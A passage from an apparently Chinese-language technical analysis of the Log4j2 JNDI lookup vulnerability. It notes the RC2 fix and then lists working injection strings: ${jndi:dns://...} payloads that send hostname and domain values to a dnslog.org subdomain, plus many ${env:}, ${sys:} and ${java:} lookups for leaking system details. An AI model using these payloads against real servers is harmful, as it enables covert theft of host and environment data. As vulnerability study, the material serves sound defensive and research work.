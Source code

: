 ```java
    </Loggers>
</Configuration>
```

而在RC2版本中，log4j2在异常处理那里直接返回null，堵上了利用的漏洞。

# 信息泄露

Jndi支持Dns协议，可以利用其将我们想要的信息进行外带

```java
${jndi:dns://${hostName}.xxx.dnslog.org}
${jndi:dns://${env:COMPUTERNAME}.xxx.dnslog.org}
${jndi:dns://${env:USERDOMAIN}.xxx.dnslog.org}
```

也很好理解，其实就是嵌套解析导致的问题，其他的一些可以利用的方式：

```java
${java:version}     getSystemProperty("java.version")
${java:runtime}     getRuntime()
${java:vm}     getVirtualMachine()
${java:os}     getOperatingSystem()
${java:hw}     getHardware()
${java:locale}     getLocale()
${sys:os.name}
${sys:os.arch}
${sys:java.version}
${env:A8_HOME}
${env:A8_ROOT_BIN}
${env:ALLUSERSPROFILE}
${env:APPDATA}
${env:CATALINA_BASE}
${env:CATALINA_HOME}
${env:CATALINA_OPTS}
${env:CATALINA_TMPDIR}
${env:CLASSPATH}
${env:CLIENTNAME}
${env:COMPUTERNAME}
${env:ComSpec}
${env:CommonProgramFiles}
${env:CommonProgramFiles(x86)}
${env:CommonProgramW6432}
${env:FP_NO_HOST_CHECK}
${env:HOMEDRIVE}
${env:HOMEPATH}
${env:JRE_HOME}
${env:Java_Home}
${env:LOCALAPPDATA}
${env:LOGONSERVER}
${env:NUMBER_OF_PROCESSORS}
${env:OS}
${env:PATHEXT}
${env:PROCESSOR_ARCHITECTURE}
${env:PROCESSOR_IDENTIFIER}
${env:PROCESSOR_LEVEL}
${env:PROCESSOR_REVISION}
${env:PROMPT}
${env:PSModulePath}
${env:PUBLIC}
${env:Path}
${env:ProgramData}
${env:ProgramFiles}
${env:ProgramFiles(x86)}
${env:ProgramW6432}
```